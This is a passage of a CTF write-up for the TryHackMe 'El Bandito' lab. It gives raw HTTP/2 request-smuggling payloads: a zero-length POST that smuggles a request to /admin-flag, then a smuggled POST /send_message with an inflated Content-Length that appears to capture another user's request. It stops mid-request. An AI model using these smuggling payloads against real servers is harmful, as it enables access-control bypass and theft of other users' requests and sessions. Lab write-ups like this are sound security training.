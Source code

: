 ## Step1

Send them all to request

```bash
GET /messages HTTP/2
POST /send_message HTTP/2
GET /getMessages HTTP/2
```

## Step2

```bash
POST / HTTP/2
Host: bandito.thm:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.aDLA8A.ikjW6tDsmMlQPVTPRZKzNcy48g0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Length: 0

GET /admin-flag HTTP/1.1
Foo:
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/EL%20Bandito%20(THM)/Images/image%20(8).png?raw=true)

- keep sending to find 404 error.

## Step3

```bash
POST / HTTP/2
Host: bandito.thm:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.aDLA8A.ikjW6tDsmMlQPVTPRZKzNcy48g0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Length: 0

POST /send_message HTTP/1.1
Host: bandito.thm:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.aDLA8A.ikjW6tDsmMlQPVTPRZKzNcy48g0
Content-Type: application/x-www-form-urlencoded
Content-Length: 900

data =
```